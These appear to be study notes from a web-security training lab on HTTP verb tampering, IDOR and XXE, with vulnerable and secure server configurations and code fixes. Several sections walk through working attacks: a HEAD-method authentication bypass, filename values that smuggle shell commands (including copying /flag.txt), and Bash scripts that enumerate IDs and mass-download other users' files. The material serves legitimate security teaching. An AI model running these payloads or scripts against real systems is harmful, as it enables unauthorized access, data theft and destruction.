

# Web Attacks

## Section 1

### Overview
A successful attack against an external-facing web application may lead to:

- Unauthorized access to sensitive information.
- Compromise of internal networks and systems.
- Theft of business assets.
- Service disruption and financial losses.

Internal web applications and API endpoints can also be vulnerable to similar attacks.

### HTTP Verb Tampering

**Definition:** HTTP Verb Tampering occurs when a web server or application handles unexpected HTTP methods insecurely, potentially allowing attackers to bypass authorization or other security controls.

**Common HTTP methods:**

- `GET` — Retrieve data.
- `POST` — Submit data.
- `PUT` — Create or update a resource.
- `DELETE` — Delete a resource.
- `HEAD` — Retrieve response headers without the response body.

**Example:** An application restricts access to an administrative function when using `GET` but **fails to enforce the same restriction when using another HTTP method**.

**Key point:** Test whether authorization rules are consistently enforced across supported HTTP methods.

### Insecure Direct Object References (IDOR)

**Definition:** IDOR is an access control vulnerability that occurs when an application exposes a direct reference to an object but fails to verify whether the current user is authorized to access it.

**Example:**

```
GET /api/users/1001/profile
```

Changing the identifier to another value, such as `1002`, may expose another user's profile if the server does not enforce proper authorization.

**Potential impact:**

- Unauthorized access to other users' data.
- Exposure of private files or records.
- Unauthorized modification or deletion of resources, depending on the affected functionality.

**Key point:** Changing an ID is not automatically a vulnerability. The **issue exists when the server allows access to an object the user is not authorized to access**.

### XML External Entity (XXE) Injection

**Definition:** XXE is a vulnerability that can occur when an application processes untrusted XML and its XML parser allows unsafe external entity resolution.

**Example XML:**

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY example "XXE test">
]>
<data>&example;</data>
```

This simple example demonstrates an XML entity. An actual XXE vulnerability requires an unsafe parser configuration or equivalent behavior that permits dangerous entity processing.

**Potential impact:**

- Reading sensitive local files.
- Accessing internal services through server-side requests (SSRF).
- Disclosing credentials or configuration data.
- In certain environments, further server compromise.

**Key point:** XXE risk depends on how the application parses XML and whether dangerous external entity processing is enabled.

## Section 2

### What Is HTTP Verb Tampering?

HTTP Verb Tampering is a vulnerability that occurs when a web server or application handles HTTP methods inconsistently, potentially allowing attackers to bypass authentication, authorization, or security filters.

Web applications commonly use `GET` and `POST`, but HTTP supports other methods such as `HEAD`, `PUT`, `DELETE`, `OPTIONS`, and `PATCH`.

If the server or application does not handle these methods securely, an attacker may be able to access restricted functionality or bypass security controls.

### Common HTTP Methods

| Method    | Description                                                                                  |
| --------- | -------------------------------------------------------------------------------------------- |
| `GET`     | Retrieves a resource.                                                                        |
| `POST`    | Submits data to the server, often to create or process a resource.                           |
| `HEAD`    | Similar to `GET`, but the response must not contain a response body.                         |
| `PUT`     | Creates or replaces a resource at the specified URI, depending on the server implementation. |
| `DELETE`  | Requests deletion of the specified resource.                                                 |
| `OPTIONS` | Requests information about the communication options supported by a resource or server.      |
| `PATCH`   | Applies partial modifications to a resource.                                                 |

**Important:** Supporting an HTTP method does not automatically create a vulnerability. **The risk depends on how the application handles the method and enforces access controls.**

### Insecure Server Configuration

A web server may apply authentication requirements only to specific HTTP methods.

Example Apache configuration:

```
<Limit GET POST>
    Require valid-user
</Limit>
```

This configuration applies the authentication requirement to `GET` and `POST` requests. Other methods may not be covered by the same rule.

If the server allows an alternative method, such as `HEAD`, without applying equivalent access controls, an attacker may be able to bypass the intended authentication restriction.

**Testing approach:**

1. Identify a protected endpoint.
2. Send a normal request using `GET` or `POST`.
3. Observe the authentication behavior.
4. Repeat the request using another method, such as `HEAD`.
5. Compare the responses and determine whether the alternative method exposes protected information or functionality.

**Key point:** A different status code alone does not prove an authentication bypass. Verify the actual access or information disclosure.

### Insecure Application Coding

A developer may apply a security filter to one input source but use another source when processing the request.

Consider this PHP example:

```
$pattern = "/^[A-Za-z\s]+$/";

if (preg_match($pattern, $_GET["code"])) {
    $query = "SELECT * FROM ports
              WHERE port_code LIKE '%" . $_REQUEST["code"] . "%'";
}
```

**What is wrong?**

1. The application validates `$_GET["code"]`.
2. The SQL query uses `$_REQUEST["code"]`.
3. Depending on PHP configuration, `$_REQUEST` may contain values from GET, POST, and COOKIE data.
4. An attacker may supply different values through different input sources, causing the application to validate one value but process another.

This creates a **validation inconsistency** and may allow malicious input to reach the SQL query without passing the intended filter.

**Security lesson:** Input validation must be applied consistently to the exact value being processed. However, validation alone is not the proper defense against SQL injection.

**Recommended fix:** Use parameterized SQL queries (prepared statements) and validate input according to the application's requirements.

## Section 3

### Identify the Protected Functionality

The first type of HTTP Verb Tampering vulnerability is **mainly caused by Insecure Web Server Configurations**, and exploiting this vulnerability can allow us to **bypass the HTTP Basic Authentication prompt on certain pages**.

The lab provides a simple File Manager web application that allows users to create files.

However, clicking the red Reset button displays an HTTP Basic Authentication prompt.

When attempting to access the protected functionality without credentials, the server returns:

```
HTTP/1.1 401 Unauthorized
```

To identify the protected endpoint:

1. Open the File Manager application.
2. Click the Reset button.
3. Observe the URL being requested.
4. Identify the endpoint: `/admin/reset.php`.
5. Visit `/admin` to check whether the entire directory is protected.

Observation: The `/admin` directory is protected by HTTP Basic Authentication.


### Identify the HTTP Method

1. Open Burp Suite and enable Proxy interception.
2. Click the Reset button again.
3. Intercept the request and inspect its HTTP method.

Example:

```
GET /admin/reset.php HTTP/1.1
Host: SERVER_IP:PORT
```

The application uses the `GET` method to access the protected functionality.

### Exploit

**Test the POST Method**

First, we need to check whether authentication is also enforced for `POST` requests.

1. Right-click the intercepted request in Burp Suite.
2. Select **Change Request Method**.
3. Burp automatically converts the request from `GET` to `POST`.
4. Forward the request and observe the response.

Result: The server still requires authentication and returns `401 Unauthorized`.

This indicates that authentication also applies to `POST` requests.

**Identify Supported HTTP Methods**

Next, we can use the `OPTIONS` method to check which HTTP methods the server accepts.

Run:

```
curl -i -X OPTIONS http://SERVER_IP:PORT/
```

Example response:

```
HTTP/1.1 200 OK
Server: Apache/2.4.41 (Ubuntu)
Allow: POST,OPTIONS,HEAD,GET
```

Observation: The server supports the `HEAD` method, which is not covered by the previous authentication configuration.

**Bypass Authentication Using HEAD**

Now, we can test whether the `HEAD` method bypasses the authentication restriction.

1. Intercept the request to `/admin/reset.php` again.
2. Change the HTTP method to `HEAD`.
3. Forward the request.
4. Observe the response.

Example:

```
HEAD /admin/reset.php HTTP/1.1
Host: SERVER_IP:PORT
```

Result: Unlike the previous attempts, the server no longer returns a `401 Unauthorized` response or displays an authentication prompt.

Instead, we receive an empty response body, which is expected behavior for `HEAD` requests.

**Verify the Impact**

Return to the File Manager application and inspect the files.

**Observation**: All files have been deleted successfully.

This confirms that the `Reset` functionality was executed **without providing valid administrator credentials**.

Successful Authentication Bypass

### 📌 Question


## Section 4

### Understanding the Vulnerability

The second and more common type of HTTP Verb Tampering is caused by **insecure application coding**.

It occurs when developers apply security filters to specific HTTP methods without covering all possible methods.

For example, if an application checks malicious input only in `POST` parameters, an attacker may change the request method to `GET` to bypass the security filter.

This may allow attacks such as SQL Injection or Command Injection to reach the vulnerable functionality.

### Identify the Security Filter

In the File Manager application, try creating a file with special characters in its name.

Example:

```
test;
```

Result: The application displays:

```
Malicious Request Denied!
```

This indicates that the application uses a server-side security filter to detect and block potentially malicious input.

### Exploit
**Bypass the Security Filter**

Now, let's check whether the filter is applied consistently across different HTTP methods.

1. Open Burp Suite and enable Proxy interception.
2. Enter a filename containing special characters.
3. Intercept the request.
4. Right-click the request and select Change Request Method.
5. Change the method from `POST` to `GET` (or vice versa, depending on the original request).
6. Forward the modified request.

Result: The malicious request is no longer blocked, and the file is successfully created.

This suggests that the security filter handles the original HTTP method but does not properly validate the alternative method.

**Confirm Command Injection**

Successfully creating a file with special characters does not automatically prove Command Injection.

To verify the vulnerability in the authorized lab, we can use a harmless command that creates a second file.

Example filename:

```
file1; touch file2;
```

The intended behavior is:

- `file1` is created by the application's normal file-creation functionality.
- `touch file2` executes as a separate operating-system command and creates another file.

Intercept the request in Burp Suite and change the HTTP method as needed to bypass the security filter.

Result: Both `file1` and `file2` appear in the File Manager.

This confirms that:

1. The security filter was bypassed.
2. The application processed the injected command.
3. Command Injection was successfully achieved.

**Understanding the Root Cause**

The application applies security filtering inconsistently across HTTP methods.

For example, the developer may validate one input source:

```
$_POST['filename']
```

But another request method may provide the value through:

```
$_GET['filename']
```

If the application processes both inputs without applying the same security checks, an attacker may bypass the filter by changing the HTTP method.

The exact vulnerable implementation depends on the application's backend code.

### 📌 Question

```bash
curl -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "filename=file%3b+cp+/flag.txt+./" http://154.57.164.74:42813/index.php
```


## Section 5

### Insecure Server Configuration

A common mistake is restricting authentication to specific HTTP methods instead of applying it to all methods.

#### Apache

**Vulnerable configuration:**

```apache
<Directory "/var/www/html/admin">
    AuthType Basic
    AuthName "Admin Panel"
    AuthUserFile /etc/apache2/.htpasswd

    <Limit GET>
        Require valid-user
    </Limit>
</Directory>
```

**Problem:**

The `<Limit GET>` directive applies authentication only to `GET` requests.

Other methods, such as `POST`, `HEAD`, and `OPTIONS`, may remain accessible without authentication.

**Secure configuration:**

Use `<LimitExcept>` to apply authentication to all methods except explicitly excluded ones:

```apache
<Directory "/var/www/html/admin">
    AuthType Basic
    AuthName "Admin Panel"
    AuthUserFile /etc/apache2/.htpasswd

    <LimitExcept>
        Require valid-user
    </LimitExcept>
</Directory>
```

Note: An empty `<LimitExcept>` covers all HTTP methods. Alternatively, explicitly list the methods that must be protected. Verify the syntax and behavior against your Apache version and configuration.

#### Tomcat

**Vulnerable configuration:**

```xml
<security-constraint>
    <web-resource-collection>
        <url-pattern>/admin/*</url-pattern>
        <http-method>GET</http-method>
    </web-resource-collection>

    <auth-constraint>
        <role-name>admin</role-name>
    </auth-constraint>
</security-constraint>
```

**Problem:**

The `<http-method>` directive limits the security constraint to `GET` requests, potentially leaving other methods unprotected.

**Secure approach:**

Use `<http-method-omission>` to define methods that should be excluded from the security constraint rather than limiting protection to a specific method.

Example:

```xml
<security-constraint>
    <web-resource-collection>
        <web-resource-name>Admin Area</web-resource-name>
        <url-pattern>/admin/*</url-pattern>
    </web-resource-collection>

    <auth-constraint>
        <role-name>admin</role-name>
    </auth-constraint>
</security-constraint>
```

Here, no HTTP method is specified, so the constraint applies to all methods matching the URL pattern.

#### ASP.NET

**Vulnerable configuration:**

```xml
<system.web>
    <authorization>
        <allow verbs="GET" roles="admin" />
        <deny verbs="GET" users="*" />
    </authorization>
</system.web>
```

**Problem:**

The authorization rules apply only to `GET` requests, potentially leaving other HTTP methods unprotected.

**Secure approach:**

Apply authorization without restricting it to a particular HTTP method, or use the appropriate `add` and `remove` configuration rules when method-specific handling is required.

The exact configuration depends on the ASP.NET version and authorization model.

### Insecure Application Coding

Server configuration is only one part of the problem. Insecure coding can also introduce HTTP Verb Tampering vulnerabilities.

Consider the following PHP code from the File Manager lab.

**Vulnerable code:**

```php
if (isset($_REQUEST['filename'])) {
    if (!preg_match('/[^A-Za-z0-9. _-]/', $_POST['filename'])) {
        system("touch " . $_REQUEST['filename']);
    } else {
        echo "Malicious Request Denied!";
    }
}
```

#### Understanding the Problem

There are two different input sources being used:

**1. Security filter:**

```php
$_POST['filename']
```

The `preg_match()` function checks the filename supplied through POST parameters.

**2. Command execution:**

```php
$_REQUEST['filename']
```

The `system()` function uses the value from `$_REQUEST`, which may include GET, POST, and COOKIE parameters, depending on PHP configuration.

#### How Can This Be Exploited?

1. The attacker sends a malicious filename through a GET request.
2. The POST parameter remains empty.
3. The security filter checks the empty POST value instead of the supplied GET value.
4. The malicious input passes the intended validation check.
5. The application retrieves the actual filename through `$_REQUEST`.
6. The input reaches the `system()` function.

**Result:** The attacker may bypass the security filter and achieve Command Injection.

#### Secure Coding Approach

Use one consistent input source and validate the exact value that will be processed.

For example:

```php
if (isset($_POST['filename'])) {
    $filename = $_POST['filename'];

    if (preg_match('/^[A-Za-z0-9._ -]+$/', $filename)) {
        // Process the validated filename safely.
    } else {
        echo "Malicious Request Denied!";
    }
}
```

This example demonstrates consistent input validation. However, it does not make shell execution safe by itself. Avoid passing user-controlled input to `system()`; use safer filesystem APIs whenever possible.

### Checking All Request Parameters

When reviewing security filters, we must ensure that all relevant input sources are covered.

The following are examples of functions and variables that can retrieve request parameters:

| Language | Function / Variable |
|---|---|
| PHP | `$_REQUEST['param']` |
| Java | `request.getParameter('param')` |
| C# | `Request['param']` |

These examples can help identify cases where an application accepts parameters from multiple HTTP methods.

**Important:** Using a general request parameter accessor does not automatically make an application secure. The application must validate the exact value being processed and avoid ambiguous input sources.

## Section 6

### What Is IDOR?

**Insecure Direct Object Reference (IDOR)** is an access control vulnerability that occurs when an application exposes a direct reference to an internal object, such as a file, user account, database record, or other resource, without properly checking whether the current user is authorized to access it.

IDOR allows users to access or manipulate resources belonging to other users by modifying object identifiers in HTTP requests.

**Example**

Suppose a web application allows users to download their files through the following URL:

```http
GET /download.php?file_id=123 HTTP/1.1
Host: example.com
```

The parameter `file_id=123` directly references a file.

An attacker may try changing the identifier:

```http
GET /download.php?file_id=124 HTTP/1.1
Host: example.com
```

If the application returns another user's private file without checking ownership or permissions, an IDOR vulnerability exists.

**Key point:** The vulnerability is not caused by exposing the ID itself. It is caused by the **missing server-side authorization check**.

### What Makes an IDOR Vulnerability?

Exposing direct object references is not automatically a security vulnerability.

The actual problem occurs when the application fails to verify whether the authenticated user has permission to access the requested resource.

**How It Happens**

1. A user logs into the application.
2. The application provides access to a resource using a direct reference, such as a file ID or user ID.
3. The user modifies the identifier in the HTTP request.
4. The server retrieves the requested resource without checking ownership or permissions.
5. The user gains unauthorized access to another user's resource.

**Frontend vs. Backend Access Control**

Some applications rely only on frontend restrictions to prevent users from accessing unauthorized resources.

For example:
- The frontend displays only the current user's files.
- Other users' files are hidden from the interface.
- However, the backend does not verify file ownership when processing requests.

An attacker may manually modify HTTP requests using Burp Suite and access resources that are hidden from the frontend.

**Important:** Hiding a button, link, or resource in the frontend does not provide security. **Authorization must always be enforced on the backend**.

**Access Control Mechanisms**

A proper access control system determines which users can access specific resources and perform specific actions.

One common approach is **Role-Based Access Control (RBAC)**.

RBAC assigns permissions based on user roles.

Example:

| Role | Permissions |
|---|---|
| Guest | View public content |
| User | Access and manage personal resources |
| Admin | Manage users and application resources |

However, checking roles alone may not be enough. Applications must also verify resource ownership and specific permissions.

For example, two users may have the same `User` role, but one should not automatically have access to the other's private files.

### Impact of IDOR Vulnerabilities

The impact depends on the affected resource and the actions an attacker can perform.

| Impact | Description |
|---|---|
| Information Disclosure | Accessing private data belonging to other users. |
| Unauthorized Modification | Changing another user's information or resources. |
| Unauthorized Deletion | Deleting resources owned by other users. |
| Privilege Escalation | Gaining permissions or roles that should not be available. |
| Account Takeover | Potentially taking control of accounts through unauthorized account-management functions. |

## Section 7

### URL Parameters and APIs

The first step in identifying IDOR vulnerabilities is finding **Direct Object References (DORs)** in HTTP requests.

Whenever an application provides access to a resource, inspect the related HTTP requests for object references. These references are commonly found in:

- URL parameters: `?uid=1`
- File parameters: `?filename=file_1.pdf`
- API endpoints: `/api/users/1`
- HTTP headers
- Cookies
- Request bodies (JSON or form data)

### Identifying IDORs Through AJAX Calls

Some applications use JavaScript AJAX calls to communicate with backend APIs.

These requests may not always appear during normal application usage. However, the frontend JavaScript code may contain additional API endpoints or functions that are not accessible through the current user's interface.

For example, an application may **hide administrative functionality from regular users but still include the related JavaScript functions in its frontend code**.

**Example AJAX Request**

```javascript
function changeUserPassword() {
    $.ajax({
        url: "change_password.php",
        type: "POST",
        dataType: "json",
        data: {
            uid: user.uid,
            password: user.password,
            is_admin: is_admin
        },
        success: function(result) {
            //
        }
    });
}
```

This function sends a request containing:

| Parameter | Description |
|---|---|
| `uid` | User ID of the account being modified |
| `password` | New password value |
| `is_admin` | A value related to administrative privileges |

Even if this function is never called during normal usage, we can locate it in the frontend JavaScript files and investigate the corresponding endpoint.

**Testing Approach**

1. Inspect JavaScript files loaded by the application.
2. Search for AJAX calls, API endpoints, and sensitive functions.
3. Identify parameters containing user IDs or other object references.
4. Understand how the request is constructed.
5. Replay the request using your own authorized test accounts.
6. Modify the object reference and check whether the backend enforces authorization.

The same approach can be applied to backend source code when it is available.

**Key Point:** Hiding a function in the frontend does not protect it. Authorization must always be enforced by the backend.


### Understanding Hashing and Encoding

Not all applications use simple sequential IDs. Some applications encode or hash object references to make them less readable.

However, **encoding and hashing do not replace proper access control**.

#### Base64 Encoding

Suppose an application uses the following URL parameter:

```http
GET /download.php?filename=ZmlsZV8xMjMucGRm
```

The value may be Base64 encoded.

Decoding it gives:

```text
file_123.pdf
```

We can then encode another potential filename:

```text
file_124.pdf
```

Using Base64:

```text
ZmlsZV8xMjQucGRm
```

We can test the new value:

```http
GET /download.php?filename=ZmlsZV8xMjQucGRm
```

If the application returns a file belonging to another user without authorization, this may indicate an IDOR.

#### Hashed Object References

Some applications use hashes instead of readable filenames or IDs.

Example:

```http
GET /download.php?filename=c81e728d9d4c2f636f067f89cc14862c
```

At first, the value may look unpredictable. However, inspecting the frontend JavaScript may reveal how it is generated.

Example:

```javascript
$.ajax({
    url: "download.php",
    type: "POST",
    dataType: "json",
    data: {
        filename: CryptoJS.MD5('file_1.pdf').toString()
    },
    success: function(result) {
        //
    }
});
```

This shows that the application generates the parameter by calculating the MD5 hash of the filename.

Therefore, we can calculate the hash for another potential filename and test it.

**Testing Approach**

1. Identify encoded or hashed parameters.
2. Inspect frontend JavaScript to understand how they are generated.
3. Determine the encoding or hashing algorithm.
4. Generate a new reference using another potential object identifier.
5. Replay the request using the modified reference.
6. Verify whether unauthorized data can be accessed.

**Important:** Base64 is reversible encoding, not encryption. Hashing is generally one-way, but predictable input values can still make hashes easy to reproduce.

### Comparing Requests Between Different Users

**Example Scenario**

Suppose User 1 can access their salary information through the following API response:

```json
{
  "attributes": {
    "type": "salary",
    "url": "/services/data/salaries/users/1"
  },
  "Id": "1",
  "Name": "User1"
}
```

The response reveals:

- Resource type: `salary`
- API endpoint: `/services/data/salaries/users/1`
- Object ID: `1`
- Associated user: `User1`

**Testing Approach**

1. Log in using User 1 and capture the salary-related API request.
2. Identify the endpoint and object references.
3. Log in using User 2.
4. Replay User 1's request using User 2's session.
5. Check whether the application returns User 1's salary information.
6. If authorized testing permits, modify the object ID and test other resources.

If User 2 can access User 1's private salary information, the application may have an IDOR caused by missing backend authorization checks.

## Section 8

### Understanding Mass IDOR Enumeration

After identifying a potential IDOR vulnerability, the next step is to determine whether it can be exploited to access multiple unauthorized resources.

Basic IDOR testing usually involves changing one object reference manually. However, in applications with many users or resources, we can automate this process to identify multiple accessible objects.

Before attempting mass enumeration, understand:

- How the application generates object references.
- Which parameters control the requested resources.
- How the backend handles authorization.
- Whether resource identifiers follow a predictable pattern.


### Identifying Insecure Parameters

Consider an **Employee Manager** application that stores employee records.

After opening the Documents section, we are redirected to:

```http
GET /documents.php?uid=1
```

The `uid` parameter identifies the employee whose documents should be displayed.

The page contains links to documents such as:

```text
/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf
```

Notice that the filenames contain the employee ID (`uid`) and a date.

This predictable naming pattern may allow us to discover other employees' files. This is an example of a **Static File IDOR**, where predictable file references can expose files belonging to other users.

However, there may be a more direct vulnerability in the `uid` parameter.

**Testing the UID Parameter**

Original request:

```http
GET /documents.php?uid=1
```

Modified request:

```http
GET /documents.php?uid=2
```

At first, the page may appear unchanged. However, inspecting the document links reveals:

```text
/documents/Invoice_2_08_2020.pdf
/documents/Report_2_12_2020.pdf
```

This indicates that the application is returning documents associated with employee `uid=2`.

The vulnerability occurs because the backend uses a user-controlled parameter to select employee records without properly checking whether the logged-in user is authorized to access them.

**Important:** A page looking identical does not mean the response contains the same resources. Always inspect links, response bodies, and other page details.

**Other Possible Parameters**

The same issue may occur with filtering parameters, such as:

```http
GET /documents.php?uid_filter=1
```

Testing other values or removing the filter may expose additional records if the backend does not enforce access control.

---

### Mass Enumeration

Manually testing employee IDs (`uid=2`, `uid=3`, `uid=4`, etc.) is inefficient when an application contains hundreds or thousands of records.

We can automate the process using:

- Burp Suite Intruder
- OWASP ZAP Fuzzer
- Bash scripts
- PowerShell scripts

The following example uses Bash to retrieve document links and download them.

**Step 1: Inspect the HTML Source**

First, inspect the document links using the browser's developer tools.

In Firefox, press:

```text
CTRL + SHIFT + C
```

Select a document link and inspect its HTML:

```html
<li class='pure-tree_link'>
    <a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>
        Invoice
    </a>
</li>

<li class='pure-tree_link'>
    <a href='/documents/Report_3_01_2020.pdf' target='_blank'>
        Report
    </a>
</li>
```

We can see that the document paths are included in the `href` attributes.

**Step 2: Retrieve Document Links Using cURL**

We can use `curl` to request the page for employee `uid=3`:

```bash
curl -s "http://SERVER_IP:PORT/documents.php?uid=3"
```

To extract only the HTML lines containing document links:

```bash
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" \
| grep "<li class='pure-tree_link'>"
```

**Note**: in lab the **`uid`** in body with **`POST`** Method
```bash
curl -s -X POST http://SERVER_IP:PORT/documents.php -d "uid=1" \
| grep "<li class='pure-tree_link'>"
```

**Step 3: Extract Only the File Paths**

Instead of retrieving the complete HTML elements, we can use `grep` with the `-oP` options:

```bash
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" \
| grep -oP "/documents.*?\.pdf"
```

Expected output:

```text
/documents/Invoice_3_06_2020.pdf
/documents/Report_3_01_2020.pdf
```

**Command explanation:**

| Option / Pattern | Description |
|---|---|
| `-s` | Runs cURL silently without progress output |
| `-o` | Prints only the matched portion |
| `-P` | Uses Perl-compatible regular expressions (PCRE) |
| `/documents` | Matches the beginning of the document path |
| `.*?` | Matches characters until the next part of the pattern |
| `\.pdf` | Matches the `.pdf` extension |

**Step 4: Automate Enumeration and Downloading**

Now that we can extract document paths, we can automate the process using nested Bash loops.

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
    for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "/documents.*?\.pdf"); do
        wget -q "$url/$link"
    done
done
```

**Script explanation:**

| Code | Description |
|---|---|
| `url=...` | Defines the target application URL |
| `for i in {1..10}` | Iterates through employee IDs from 1 to 10 |
| `curl -s` | Requests each employee's documents page |
| `grep -oP` | Extracts document paths from the response |
| `for link in ...` | Iterates through the extracted paths |
| `wget -q` | Downloads each document quietly |

### 📌 Question

```bash
#!/bin/bash

url="http://154.57.164.80:35770"

for i in {1..20}; do
    for link in $(curl -s -X POST "$url/documents.php" -d "uid=$i" | grep -oP "/documents.*?\.(pdf|txt)"); do
        wget -q "$url/$link"
    done
done
```


## Section 9

### Analyzing the Download Request

Consider the Employee Manager application and its Contracts functionality.

When clicking on `Employment_contract.pdf`, the application sends a POST request to:

```http
POST /download.php HTTP/1.1
Host: SERVER_IP:PORT
Content-Type: application/x-www-form-urlencoded

contract=cdd96d3cc73d1dbdaffa03cc6cd7339b
```

The `contract` parameter contains an MD5-looking hash instead of a readable employee ID or filename.

We may initially assume that this hash represents the employee ID, filename, or another unique value.

**Testing Possible Values**

We can calculate the MD5 hash of our employee ID:

```bash
echo -n 1 | md5sum
```

Example output:

```text
c4ca4238a0b923820dcc509a6f75849b -
```

This does not match the hash observed in the request.

We could investigate other possible values, such as:

- Username
- Employee ID
- Filename
- Contract identifier
- A combination of multiple values

Tools such as Burp Suite Comparer and fuzzing techniques may also help investigate possible patterns.

However, if the reference is generated from an unpredictable value or a secret, reproducing it may be difficult.

**Important:** An MD5-looking value does not automatically make an object reference secure. **We need to understand how it is generated.**

### Function Disclosure

**Step 1: Inspect the HTML Source**

Looking at the contract download link, we find:

```javascript
javascript:downloadContract('1')
```

This indicates that the application calls a JavaScript function named `downloadContract()` and passes the employee ID as an argument.

**Step 2: Inspect the JavaScript Function**

Searching the source code for `downloadContract()` reveals:

```javascript
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```

Now we understand how the application generates the `contract` parameter.

The function performs two operations:

1. `btoa(uid)` converts the employee ID into a Base64-encoded string.
2. `CryptoJS.MD5(...)` calculates the MD5 hash of that encoded value.

The resulting hash is sent to `/download.php` through a POST request.

**Step 3: Reproduce the Hashing Process**

We can reproduce the same operation from the command line:

```bash
echo -n 1 | base64 -w 0 | md5sum
```

Example output:

```text
cdd96d3cc73d1dbdaffa03cc6cd7339b -
```

This matches the hash observed in the original HTTP request.

We have now identified the exact algorithm used to generate the contract reference.

**Command Explanation**

| Command / Option | Description |
|---|---|
| `echo -n 1` | Prints `1` without adding a newline |
| `base64 -w 0` | Encodes the input using Base64 without line wrapping |
| `md5sum` | Calculates the MD5 hash |
| `tr -d ' -'` | Removes spaces and the trailing dash from the output |

**Why use `-n` and `-w 0`?**

Newline characters affect the calculated hash. We use these options to ensure that the input is processed consistently with the JavaScript implementation.

### Mass Enumeration

**Step 1: Generate Hashes for Multiple Employees**

The following command generates hashes for employee IDs from 1 to 10:

```bash
for i in {1..10}; do
    echo -n "$i" | base64 -w 0 | md5sum | tr -d ' -'
done
```

Each iteration:

1. Takes an employee ID.
2. Encodes it using Base64.
3. Calculates its MD5 hash.
4. Removes unnecessary characters from the output.

**Step 2: Automate Contract Downloads**

Once we can generate the correct hashes, we can automate the POST requests to the download endpoint.

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
    hash=$(echo -n "$i" | base64 -w 0 | md5sum | tr -d ' -')

    curl -sOJ -X POST \
        -d "contract=$hash" \
        "$url/download.php"
done
```

**Script Explanation**

| Command / Option | Description |
|---|---|
| `for i in {1..10}` | Iterates through employee IDs 1–10 |
| `hash=$(...)` | Generates the expected hash for each ID |
| `curl` | Sends the HTTP request |
| `-s` | Runs silently |
| `-O` | Saves the downloaded file using the server-provided filename |
| `-J` | Uses the filename provided in the `Content-Disposition` response header |
| `-X POST` | Sends a POST request |
| `-d` | Sends the contract parameter in the request body |

### 📌 Question

```bash
#!/bin/bash

url="http://154.57.164.71:38065"

for i in {1..20}; do
    hash=$(echo -n "$i" | base64 -w 0)

    curl -sOJ "$url/download.php?contract=$hash"
done
```


## Section 10

### Identifying Insecure APIs

Consider the Employee Manager application.

When opening the **Edit Profile** page, we can modify our profile information, including:

- Full Name
- Email
- About Me

After updating the profile, we intercept the request using Burp Suite.

**Analyzing the HTTP Request**

The application sends a `PUT` request to:

```http
PUT /profile/api.php/profile/1
```

The request contains the following JSON data:

```json
{
    "uid": 1,
    "uuid": "40f5888b67c748df7efba008e7c2f9d2",
    "role": "employee",
    "full_name": "Amy Lindon",
    "email": "a_lindon@employees.htb",
    "about": "A Release is like a boat. 80% of the holes plugged is not good enough."
}
```

Notice that the request contains additional parameters that are not directly available in the profile form.

| Parameter | Description |
|---|---|
| `uid` | User ID |
| `uuid` | Unique identifier associated with the user |
| `role` | User's role or privilege level |
| `full_name` | User's full name |
| `email` | User's email address |
| `about` | Profile description |

The application also sends a cookie:

```http
Cookie: role=employee
```

This is interesting because the application appears to include role information in client-controlled data.

**Security Concern:** If the backend trusts a role supplied through a cookie or JSON parameter without independently verifying the user's privileges, an attacker may be able to manipulate their access level.


### Exploit

**Test 1: Change the User ID**

The original endpoint is:

```http
PUT /profile/api.php/profile/1
```

And the JSON body contains:

```json
{
    "uid": 1
}
```

We can try changing the user ID to another employee:

```json
{
    "uid": 2
}
```

However, the application responds with:

```text
uid mismatch
```

This indicates that the backend compares the `uid` in the JSON body **with the ID specified in the API endpoint**.

This validation prevents us from changing the user ID independently.

**Test 2: Modify Another User's Profile**

Next, we can change both the API endpoint and the `uid` parameter:

```http
PUT /profile/api.php/profile/2
```

```json
{
    "uid": 2,
    "uuid": "40f5888b67c748df7efba008e7c2f9d2",
    "role": "employee",
    "full_name": "Modified Name",
    "email": "modified@example.com",
    "about": "Modified profile"
}
```

The application responds with:

```text
uuid mismatch
```

This indicates that the backend also checks whether the supplied `uuid` matches the **UUID associated with the requested user**.

Since we are using our own UUID, the request fails.

**Key Point:** The application has additional backend validation that prevents us from modifying another user's profile using only their user ID.

**Test 3: Create a New User**

We can investigate whether the API supports creating new employees by changing the HTTP method from `PUT` to `POST`.

Example:

```http
POST /profile/api.php/profile/3
```

The application responds error message saying:

```text
Creating new employees is for admins only
```

This indicates that the application restricts employee creation to administrators.

**Test 4: Delete an Existing User**

We can also test the `DELETE` method.

Example:

```http
DELETE /profile/api.php/profile/2
```

The application responds:

```text
Deleting employees is for admins only
```

This indicates that the application restricts employee deletion to administrators.

**Test 5: Change Our Role**

Finally, we can attempt to modify the `role` parameter:

Original value:

```json
{
    "role": "employee"
}
```

Modified value:

```json
{
    "role": "admin"
}
```

The application responds:

```text
Invalid role
```

This **means that the supplied role value is not accepted**.

We have not successfully escalated our privileges.


**Why These Attempts Failed**

So far, our attempts to exploit the API's function calls have failed.

| Attempt | Result | Explanation |
|---|---|---|
| Change `uid` | `uid mismatch` | Backend checks the user ID against the endpoint. |
| Modify another user's profile | `uuid mismatch` | Backend validates the user's UUID. |
| Create a new user | Admins only | Creation is restricted. |
| Delete a user | Admins only | Deletion is restricted. |
| Change role to `admin` | `Invalid role` | The supplied role is rejected. |

At this point, we have not found a successful Insecure Function Call vulnerability.

However, this does not mean that the application is completely secure against IDOR attacks.

We have only tested whether we can perform unauthorized actions. **We have not yet tested whether we can retrieve other users' information**.

The next step is investigating the API's `GET` functionality

### 📌 Question


## Section 11

